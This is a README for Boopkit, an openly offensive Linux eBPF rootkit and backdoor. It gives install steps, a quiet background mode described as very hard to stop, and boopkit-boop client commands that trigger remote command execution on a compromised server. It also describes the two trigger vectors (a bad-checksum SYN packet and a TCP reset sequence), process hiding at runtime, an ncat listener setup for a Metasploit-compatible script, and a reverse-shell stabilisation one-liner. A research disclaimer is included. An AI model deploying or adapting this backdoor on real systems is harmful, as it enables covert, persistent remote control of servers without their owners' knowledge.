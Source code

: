 ```
================================================================

   ██████╗  ██████╗  ██████╗ ██████╗ ██╗  ██╗██╗████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗██║ ██╔╝██║╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║██████╔╝█████╔╝ ██║   ██║   
   ██╔══██╗██║   ██║██║   ██║██╔═══╝ ██╔═██╗ ██║   ██║   
   ██████╔╝╚██████╔╝╚██████╔╝██║     ██║  ██╗██║   ██║   
   ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝  ╚═╝╚═╝   ╚═╝   
   Author: Kris Nóva <kris@nivenly.com> Version 1.3.0
   
   IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE 
   LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, 
   EXEMPLARY, OR CONSEQUENTIAL DAMAGES.   

   DO NOT ATTEMPT TO USE THE TOOLS TO VIOLATE THE LAW.
   THE AUTHOR IS NOT RESPONSIBLE FOR ANY ILLEGAL ACTION.
   MISUSE OF THE SOFTWARE, INFORMATION, OR SOURCE CODE
   MAY RESULT IN CRIMINAL CHARGES.
   
   Use at your own risk.

================================================================

Boopkit
Linux rootkit and backdoor. Built using eBPF.

Usage: 
boopkit [options]

Options:
-h, help           Display help and usage for boopkit.
-i, interface      Interface name. lo, eth0, wlan0, etc
-s, sudo-bypass    Bypass sudo check. Breaks PID obfuscation.
-r, reverse-conn   Attempt a reverse RCE lookup if no payload found.
-q, quiet          Disable output.
-x, reject         Source addresses to reject triggers from.

```

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.3.0.tar.gz
tar -xzf v1.3.0.tar.gz 
cd boopkit-1.3.0/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background in quiet mode.

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit -q &
```

Boopkit is now running and can be exploited using the client `boopkit-boop` command line tool.

## Client Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -c "$RCE"
```

# Boop Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. This works against any Linux server running boopkit, regardless of the state of TCP services.

Use `-p` with `boopkit-boop` to only use this first vector.

⚠️ Some modern network hardware will DROP all malformed checksum packets such as the one required to exploit boopkit using this vector!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
RHOST="127.0.0.1"
RPORT="22"
LHOST="127.0.0.1"
LPORT="3535"

NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
